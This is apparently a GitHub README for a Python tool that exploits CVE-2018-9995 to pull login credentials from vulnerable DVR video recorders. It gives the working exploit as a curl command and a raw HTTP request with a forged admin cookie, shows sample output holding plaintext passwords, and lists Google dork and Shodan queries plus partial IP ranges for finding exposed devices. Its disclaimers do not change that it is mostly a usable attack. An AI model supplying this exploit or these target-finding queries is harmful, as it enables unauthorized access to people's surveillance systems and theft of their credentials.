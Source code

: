 # DVR Credential Scanner

A simple educational tool to demonstrate the CVE-2018-9995 vulnerability in certain DVR (Digital Video Recorder) systems.

## ⚠️ Disclaimer

This tool is provided for **EDUCATIONAL PURPOSES ONLY**. The author and contributors are not responsible for any misuse or damage caused by this program. Using this tool against systems without explicit permission is illegal and may result in criminal charges.

## 📝 About the Vulnerability

- **CVE ID**: CVE-2018-9995
- **CVSS Base Score v3**: 7.3/10
- **CVSS Vector String**: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
- **Vulnerability Type**: Information Disclosure

The vulnerability allows unauthorized users to extract login credentials from vulnerable DVR systems by sending a specially crafted HTTP request.

## 🎯 Affected Devices

The following DVR brands/models may be vulnerable:
- Novo
- CeNova
- QSee
- Pulnix
- XVR 5-in-1
- Securus
- Night OWL
- Various DVRs with "DVR Login", "HVR Login", or "MDVR Login" banners

## 🔍 Finding DVR Systems for Testing

For educational and research purposes, you can identify potential DVR systems using specialized search techniques. Here are some methods security researchers use:

### Google Dorks

Google dorks are specialized search queries that can help find specific web interfaces. Here are some examples for finding DVR login pages:

```
intitle:"DVR LOGIN"
intitle:"DVR LOGIN" -com
intitle:"DVR Login" -com
intitle:"XVR Login" -com
intitle:"MDVR Login" -com
intitle:"HVR Login" -com
```

Common IP addresses found in these searches include:
- 91.201.122.x
- 59.26.65.x
- 47.113.219.x
- And many others

### Other Search Options

You can also use specialized search engines that index IoT devices:
- Shodan.io with queries like `title:"DVR LOGIN"`
- Censys.io
- ZoomEye

### Important Note

**Always ensure you have explicit permission to test any system you identify.** Only test on systems you own or have written permission to test. Unauthorized access is illegal and unethical.

## 📋 Requirements

- Python 3.6 or higher
- Internet connection

## 🔧 Installation

1. Clone this repository:
   ```
   git clone https://github.com/yourusername/DVR_Credential_Scanner.git
   ```

2. Change to the project directory:
   ```
   cd DVR_Credential_Scanner
   ```

3. Install the required dependencies:
   ```
   pip install -r requirements.txt
   ```

## 🚀 Usage

### Interactive Mode (Recommended)

Simply run the script without any arguments, and it will prompt you for the target information:
```
python dvr_scanner.py
```

You will be prompted to enter:
- The target host (IP address or hostname)
- The target port (defaults to 80 if not specified)

After scanning one target, you'll be asked if you want to scan another.

### Command-line Mode

You can also use command-line arguments:
```
python dvr_scanner.py --host [TARGET_IP] --port [TARGET_PORT]
```

Example:
```
python dvr_scanner.py --host 192.168.1.100 --port 80
```

### Command-line Arguments

- `--host`: Target IP address or hostname (will prompt if not provided)
- `--port`: Target port number (default: 80)
- `--timeout`: Connection timeout in seconds (default: 10)

### Manual Exploitation

You can also manually validate the vulnerability using curl:

```bash
curl "http://<dvr_host>:<port>/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```

A successful exploitation will return a JSON response containing user credentials:

```json
{
  "result": 0,
  "list": [
    {
      "uid": "admin",
      "pwd": "Op1234567#",
      "role": 2,
      "enmac": 0,
      "mac": "00:00:00:00:00:00",
      "playback": 4294967295,
      "view": 4294967295,
      "rview": 4294967295,
      "ptz": 4294967295,
      "backup": 4294967295,
      "opt": 4294967295
    }
  ]
}
```

If you receive a different response or an error, the system may not be vulnerable to this exploit.

### Example Output

```
  ____  __     __  _____     _____                            
 |  _ \ \ \   / / |  __ \   / ____|                           
 | | | | \ \_/ /  | |__) | | (___   ___ __ _ _ __  _ __   ___ _ __ 
 | | | |  \   /   |  _  /   \___ \ / __/ _` | '_ \| '_ \ / _ \ '__|
 | |_| |   | |    | | \ \   ____) | (_| (_| | | | | | | |  __/ |   
 |____/    |_|    |_|  \_\ |_____/ \___\__,_|_| |_|_| |_|\\___|_|   
                                                        
 [*] CVE-2018-9995 | DVR Credential Scanner
 [*] Educational purposes only

 [*] Connecting to 192.168.1.100:80...

 [+] DVR URL:		192.168.1.100:80
 [+] Total Users:	1

╭──────────────────────┬──────────────────────┬──────────────────────╮
│             Username │             Password │              Role ID │
├──────────────────────┼──────────────────────┼──────────────────────┤
│                admin │           password12 │                    1 │
╰──────────────────────┴──────────────────────┴──────────────────────╯
```

## 🔍 Understanding the Vulnerability

The vulnerability exists because the DVR systems accept a cookie with `uid=admin` without proper authentication, and then return sensitive information including login credentials in a JSON response.

The exploit makes a simple HTTP request:
```
GET /device.rsp?opt=user&cmd=list HTTP/1.1
Host: [DVR_HOST]
Cookie: uid=admin
```

## 📜 License

This project is licensed under the MIT License. 
